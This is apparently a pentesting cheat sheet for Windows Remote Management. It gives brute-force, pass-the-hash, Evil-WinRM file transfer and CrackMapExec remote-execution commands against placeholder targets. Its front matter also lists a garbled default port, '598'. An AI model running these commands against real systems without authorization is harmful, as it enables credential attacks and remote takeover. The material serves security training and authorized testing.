 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: Default port is 598, 5986.
tags: [598, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## 1. Enumeration

1. **Brute Force Credentials**

    ```sh
    crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
    ```

    Or using Metasploit

    ```sh
    msfconsole
    msf > use auxiliary/scanner/winrm/winrm_login
    ```

<br />

## 2. Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        # Evil-WinRM
        evil-winrm -i <target-ip> -P 5985 -u username -p password
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5985 -u username -H 0e0363213e37b94221497260b0bcb4fc
        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}** is a swiss army knife for pentesting networks.

    ```sh
    # Login and CMD execution (-x)
    crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```